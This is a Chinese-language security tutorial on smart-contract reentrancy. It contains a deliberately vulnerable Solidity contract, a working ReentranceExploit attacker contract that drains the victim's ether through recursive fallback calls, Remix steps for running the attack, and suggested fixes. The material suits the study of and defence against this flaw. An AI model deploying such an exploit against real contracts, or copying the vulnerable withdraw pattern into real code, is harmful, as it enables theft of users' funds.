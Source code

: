 # 01.Reentrancy - 重入

## 漏洞等级
**高危**

## 漏洞成因
`重入攻击`, 也可以说是`递归调用`漏洞。`漏洞合约`的`漏洞函数`对`恶意合约`发起调用后，`恶意合约`再次发次对`漏洞合约`的`漏洞函数`的调用，如果`恶意合约`被允许调用`漏洞函数`且调用成功也就发生了`重入`。
通常漏洞由合约发起`<Address>.call.value()()`发送ether到`外部合约`,从而触发`外部合约`的`回退函数` - [fallback()](http://solidity.readthedocs.io/en/v0.4.21/contracts.html#fallback-function)导致的。
> 合约接收ether的时候会触发fallback()
>
> 合约被调用函数不存在,也会fallback())

## 漏洞危害
由于`漏洞函数`执行过程调用`不可信合约`或者使用`具有外部地址`的`低级函数`,`漏洞合约`的`合约状态`被改变,`漏洞函数`的`运行结果`也将`不可信`。以`The DAO`事件为例,攻击者的恶意的递归调用使`The DAO`损失了`350万ETH`,也导致了以太坊的分叉。

## 漏洞测试方法

### 测试环境
推荐并尽量使用 `Remix - Solidity IDE` 进行复现
(部分漏洞使用`truffle`本地搭建环境进行补充复现)

[Remix - Solidity IDE](http://remix.ethereum.org/#optimize=false&version=soljson-v0.4.24+commit.e67f0147.js)

### 编译合约

将以下两个合约直接复制粘贴到 Remix 的代码框中

#### 被攻击合约:

**Reentrance**
```
pragma solidity ^0.4.15;

contract Reentrance {
    mapping (address => uint) userBalance;
   
    // 返回地址u的余额
    function getBalance(address u) constant returns(uint){
        return userBalance[u];
    }

	// 对合约充值ether
    function addToBalance() payable{
        userBalance[msg.sender] += msg.value;
    }   
	
    // 从合约取款
    function withdrawBalance(){
        // 发送 userBalance[msg.sender] ethers 到 msg.sender
        // 如果 mgs.sender 是一个合约, 这将会触发 msg.sender 地址上的合约的回退函数 fallback()
        if( ! (msg.sender.call.value(userBalance[msg.sender])() ) ){
            throw;
        }
        // 取款完成后将 userBalance[msg.sender] 归零
        userBalance[msg.sender] = 0;
    }   
   
}

```
#### 攻击者合约:
**ReentranceExploit**
```
contract ReentranceExploit {
    // 被攻击合约的地址
    address public vulnerable_contract;
    // 当前合约的拥有者
    address public owner;

    function ReentranceExploit() public{
    	// 合约拥有者为合约创建者
        owner = msg.sender;
    }

    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract ;
        // 发送 msg.value ethers 到 vulnerable_contract.addToBalance()
        // 使当前攻击者合约在被攻击合约中有余额 即 vulnerable_contract.userBalance[msg.sender] > 0
        // vulnerable_contract.userBalance[msg.sender] 就是攻击者每次递归调用偷取的ether(wei)量
        require(vulnerable_contract.call.value(msg.value)(bytes4(sha3("addToBalance()"))));
    }

    function launch_attack() public{
        // 调用 vulnerable_contract.withdrawBalance
        // withdrawBalance calls the fallback of ReentranceExploit
        require(vulnerable_contract.call(bytes4(sha3("withdrawBalance()"))));
    }  


    function () public payable{
        // 当本合约发起攻击后,vulnerable_contract 会发送ether到本合约从而触发本合约回退函数fallback()
        // 本合约fallback() 中会再次调用 vulnerable_contract.withdrawBalance() 进行取现
        // 由于 vulnerable_contract 先进行发送ether后修改userBalance[msg.sender
        // 此时 vulnerable_contract.userBalance[msg.sender] 会一直不变
        // 从而每次调用会从vulnerable_contract合约中取出userBalance[msg.sender] (wei) ether
        // 直到将vulnerable_contract 的 ether 取空(剩余量小于vulnerable_contract.userBalance[msg.sender] (wei))
        vulnerable_contract.call(bytes4(sha3("withdrawBalance()")));
    }

    function get_money(){
    	// 执行 suicide 自毁函数,将当前攻击者合约销毁
        // 并且将攻击者合约中的ether全部发送到owner账户中
        suicide(owner);
    }

}

```

![](images/20180620004742367.png)

### 切换到 `run` 面板
1. 点击 `deploy` 按钮部署 `Reentrance` 合约

![](images/20180620005003918.png)

2. 修改Value为 `50` ,单位为 `ether`
点击 `addToBalance` 给 `Reentrance` 合约进行充值ether,

![](images/20180620005459925.png)


3. 切换到Account 2:`0x14723a09acff6d2a60dcdf7aa4aff308fddc160c`,选择`ReentranceExploit`,点击 `Deploy`

![](images/20180620005722236.png)

4. 修改`Value` 为 `10` ether,然后复制 `Reentrance` 合约地址,粘贴到 `ReentranceExploit`的`deposit`参数框中,
点击`deposit`按钮进行充值ether到`Reentrance`合约

![](images/20180620005922476.png)

5. 点击 `launch_attack` 按钮进行攻击

6. 点击 `get_money` 按钮进行销毁攻击者合约,并且返回ether到owner账户,
可以看到Account 2增加了`50` ether

![](images/20180620010604810.png)






## 修复建议

1. 最好避免使用`<Address>.call.value()()`这种形式发送ether,建议使用更安全的`<Address>.transfer()`

>推荐使用`<Address>.transfer()`而不是`<Address>.send()`,`<Address>.send()`在发送是失败的时候只会返回`false`,
>而`<Address>.transfer()`则会抛出异常,引发evm操作回滚,更为安全。

示例代码:

```    
function withdrawBalance(){
	// send() 和 transfer() 都可以防止重入
	// 他们在调用时不会发送所有的gas,(仅发送2300gas)
	// 这样调用函数部分只能执行很少的操作
	// 从而使fallback()函数不能完整执行
	msg.sender.transfer(userBalance[msg.sender]);
	userBalance[msg.sender] = 0;
}  

```

2. 可以采取先扣除余额再发送ether的形式(不是非常建议,除非合约必须使用`<Address>.call.value()()`这种形式,否则都采取上面的建议)

示例代码:
```
function withdrawBalance(){
    uint amount = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    if( ! (msg.sender.call.value(amount)() ) ){
        throw;
    }
}   
```

> 参考:
>
>[DASP - TOP 10](
https://www.dasp.co/)
>
>[github:not-so-smart-contracts/reentrancy](
https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)
>
>[以太坊智能合约安全入门了解一下（上）](
http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilites-review/)

Contact me: ***root@blockchain-security.info***
